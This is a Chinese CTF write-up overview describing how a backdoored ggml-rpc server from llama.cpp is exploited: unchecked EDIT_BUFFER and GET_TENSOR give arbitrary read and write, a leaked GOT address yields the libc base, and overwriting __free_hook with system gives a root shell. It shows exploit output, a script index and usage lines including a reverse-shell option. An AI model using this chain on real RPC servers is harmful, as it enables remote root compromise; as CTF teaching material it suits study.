

题目给 `diff.patch`、`rpc-server`、带调试信息的 `libggml.so` 和 glibc 2.31 全套附件，最终在远程 `docker.qingcen.net:41852` 拿到 **root shell**。洞**不是溢出**：`diff.patch` 往 ggml-rpc 加了一条零校验的 `memcpy`（`EDIT_BUFFER`，cmd=11），而协议本身又把 `tensor->data` 这种裸指针明文写在线上（`GET_TENSOR` 只校验 `buffer` 是否登记过，不校验 `data`）。两者一叠就是任意地址读 + 任意地址写：



> [!info]- 这是一道什么类型的题
> pwn 题的本质：出题人给你一个跑在服务器上的**程序**（这里叫 `rpc-server`），它开着一个端口等你连接。你的目标不是"破解密码"，而是利用程序代码里的缺陷，让这个程序**替你执行任意命令**（通常是启动一个 shell），然后 shell 里 `cat /flag` 拿到分数。这类"改过的开源项目 + 服务端"题，比裸的栈溢出题更接近真实世界的漏洞挖掘——真实漏洞也几乎都藏在别人写好的项目里。

> [!info]- 适用对象与读法
> 会一点 pwn（懂栈/堆、能看 x86-64 汇编），没接触过 llama.cpp。完全零基础也能读：每个概念第一次出现时，正文下方都有**默认折叠的 callout**，点开就是从零讲起。
> 阅读顺序就是 order 顺序：导读 → 背景与侦察 → 读 patch → 协议逆向 → 利用链 → 复盘。打题时把 [[04-利用链与EXP]] 开头的偏移表当速查。

> [!info]- 基础技术用语
> - **ELF**：Linux 下可执行文件/动态库的文件格式，`rpc-server` 和 `libggml.so` 都是 ELF
> - **libc / glibc**：C 标准库的 Linux 实现，`malloc`、`free`、`system`、`puts` 都在里面；glibc 是它的名字，2.31 是版本号
> - **堆**：程序运行时 `malloc` 申请内存的地方，地址在内存布局的高处
> - **GOT / PLT**：动态链接函数的"电话簿"，见 [[01-背景与静态侦察#file / checksec：版本与保护]] 的折叠 callout
> - **句柄（handle）**：一个代指资源的数字/指针。本题里服务端把 buffer 的真实地址当句柄发给你
> - **原语（primitive）**：利用达到的能力等级。AAR = 任意地址读，AAW = 任意地址写
> - **泄漏（leak）**：让程序把本该保密的地址打印给你，用来推算其它基址
> - **劫持**：改写函数指针或返回地址，让程序跳去执行你选的函数
> - **getshell**：让目标机执行你给的命令行（shell），等于拿到那台机器的操作权
> - **基址 / 偏移**：`真实地址 = 基址 + 偏移`。偏移是函数在文件里的位置，基址是这次运行它被加载到哪

## 题目文件与第一判断

文件阵容：`diff.patch`、`rpc-server`、`libggml.so`（2.3MB）、`libc.so.6`、`ld-linux-x86-64.so.2`、`libstdc++.so.6`、`libgcc_s.so.1`、`libgomp.so.1`、`libm.so.6`、`libpthread.so.0`、`libdl.so.2`。

> [!important]- 拿到文件先形成的三个判断
> 1. **"修改过的开源项目"题**：给了 `diff.patch`，解题捷径就是先读 patch，作者把漏洞点直接指给你了 → [[02-读patch与漏洞原理]]
> 2. **服务类 pwn**：`rpc-server` 监听端口靠协议交互，没有 stdin 重定向 → [[03-协议逆向与调试环境]]
> 3. **没 strip 还带 debug_info 的 C++ 大二进制**：符号表、结构体偏移、源码路径全能直接读出来，这是作者送的礼物 → [[01-背景与静态侦察]]
>
> 为什么先做判断再动手：不同判断对应完全不同的工具链。"改过的开源项目"直接读 patch 十分钟定位漏洞；不带 patch 的题可能要在 2.3MB 的二进制里摸几个小时。侦察五分钟，可能省五小时。

全局架构：

```
                     你的攻击脚本 (Python socket)
                                │  自定义 RPC 协议
                                ▼
        rpc-server (main, PIE)
             └── dlopen libggml.so
                    ├── start_rpc_server()
                    │      accept() → rpc_serve_client()  ← 单连接串行
                    │           └── rpc_server 对象（每次连接新建）
                    │                ├── alloc_buffer / free_buffer / ...
                    │                ├── get_tensor  ← 任意读
                    │                └── edit_buffer ← 任意写（后门）
                    └── ggml CPU 后端
                           ├── ggml_backend_buffer 结构体（堆上）
                           │      +0x00..0x38  iface 函数指针表
                           │      +0x50        context（数据块，会被 free）
                           └── ggml_backend_cpu_buffer_free_buffer() → free(context)
                                                        │
                                             glibc 2.31: __free_hook 还可以劫持
```

最终成果（本地 + 远程都实测）：

```
[*] [leak] free@GOT=0x7552964256d0 -> libc=0x75529638b000
[*] [stage] __free_hook = system (0x755296579e48)
[*] [trigger] FREE_BUFFER(...) -> free(context) -> system(payload)
[*] FLAG >> flag{36f61386-5d91-497e-ae78-76fc5e9bbde8}
# uid=0(root) gid=0(root) groups=0(root)
```

> [!info]- 逐行读这份输出
> - `[leak] free@GOT=0x7552964256d0`：从 libggml 的 GOT 里读出了 libc 中 `free` 函数的真实地址
> - `-> libc=0x75529638b000`：拿这个地址减去 `free` 在 libc 文件里的偏移，算出 libc 这次被加载到的起始位置
> - `[stage] __free_hook = system`：把 libc 里 `__free_hook` 这个全局变量的值改成了 `system` 函数的地址
> - `[trigger] FREE_BUFFER(...) -> free(context) -> system(payload)`：发一条"释放 buffer"的协议命令，服务端执行 `free(context)`，而 `free` 进门先看 `__free_hook`，发现被改过，就转而去调用 `system`，参数正好是我们提前写进去的命令字符串
> - `=== FD 4 ===`：shell 的输出从 4 号文件描述符回来，说明和我们的连接挂在 fd 4 上
> - `uid=0(root)`：服务端以 root 跑，拿到的也是 root 权限

## 文件索引

| 文件 | 说明 |
|---|---|
| `exploit_llama_rpc.py` | 单文件完整 EXP，自带协议层 + resync 容错，无第三方依赖 |
| `reproduce_local.sh` | 一键本地复现（起服务端 + 打一遍） |
| `assets/demo2.gdb` | gdb 打点脚本：edit_buffer → cpu_buffer_free_buffer → system 全链跟踪 |
| `assets/gdb_chain_demo.log` | 上面脚本的实测日志（"答案之眼"那一屏） |
| `aux/alt_iface_hijack.py` | 备用路线：劫持 `iface.get_base` → `system`（见 [[05-复盘与修复#其它可行路线]]） |
| `aux/check_secondary_bug.py` | 验证"先读后校验"导致的段错误（见 [[02-读patch与漏洞原理#先读后校验：空输入就是段错误]]） |
| `aux/remote_recon.py` | 打远程时顺手做的环境信息收集 |
| `attachments/利用链.svg` | 利用链流程图（本篇开头嵌入） |

题目原始文件（`rpc-server`、`libggml.so`、`libc.so.6`、`ld-linux-x86-64.so.2`、`diff.patch` 等）不在这个目录，`reproduce_local.sh` 默认按 `ATTACH=../attachment` 查找，用 `ATTACH=/path/to/attachment bash reproduce_local.sh` 指定。

## 快速上手

```bash
# 本地复现（需要题目附件目录）
ATTACH=/path/to/attachment bash reproduce_local.sh
# 输出末尾应当看到： [*] FLAG >> flag{...}

# 打远程
python3 exploit_llama_rpc.py <HOST> <PORT>              # 读 flag（自动探测 socket fd）
python3 exploit_llama_rpc.py <HOST> <PORT> --shell      # 交互式 root shell
python3 exploit_llama_rpc.py <HOST> <PORT> --cmd "id"   # 自定义命令
python3 exploit_llama_rpc.py <HOST> <PORT> --reverse VPS_IP:PORT   # 额外补一个反弹 shell
```

---
[[01-背景与静态侦察|下一篇：背景与静态侦察 →]]
